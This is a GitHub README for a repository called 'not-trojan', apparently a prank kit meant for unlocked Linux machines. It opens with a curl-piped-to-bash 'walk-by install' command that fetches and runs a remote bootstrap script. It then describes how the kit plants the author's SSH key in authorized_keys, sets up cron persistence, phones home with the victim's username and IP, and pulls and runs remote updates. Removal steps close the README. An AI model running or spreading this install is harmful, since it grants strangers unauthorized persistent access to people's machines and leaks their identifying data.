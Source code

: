 # Walk-by install:

curl -s -L https://raw.githubusercontent.com/eadanila/not-trojan/master/bootstrap.sh | bash

---
# Description

A small collection of scripts I once used remind people to lock their PCs when they walk away. By example.

I'd call it a Trojan but it doesn't trick anyone into anything. It's like if the Greeks just walked
into Troy because the Trojans left the gate unlocked while they went to the kitchen for a coffee.

The walk-by install adds a user cron job to clone to full repo so that it can be installed in under 10
seconds of access to the machine reardless of repos size or network speed.

Once fully installed, it installs my SSH key into the machine's authorized keys file, phones home with
the username and IP address, and runs every minute via cron to do configured tasks. It does not attempt
to gain any higher priviliges than the user it runs as or to get the user's password.

Listening server was just a manually run `woof -U` instance. IP is hardcoded in `et-phone-home.sh`.

It carries out nuisance actions, like writing new files into random directories in `$HOME`. Written files
are tracked for easy removal. I'm not a monster. I just want to prove what can be done with very little
access to an unlocked Linux machine.

Remote control over SSH will only work on LAN unless the target has opened their firewall to SSH. Otherwise,
it should still work by pulling updates and executing via cron. 
# Removal

You can remove all traces of the install by:
1. Edit your crontab to remove all lines ending with `#lsconfig-*`
2. Remove all the files listed in `$HOME/.config/lsconfig/state/hello.log` 
    - `rm $(cat $HOME/.config/lsconfig/state/hello.log)`
    - It should be fine, but MAKE SURE THIS FILE DOESN'T HAVE ANY UNEXPECTED ENTRIES FIRST 
3. Remove `$HOME/.config/lsconfig`
4. Remove the key from `nobody@nowhere` in your authorized keys file
4. Set things like your wallpaper back to normal
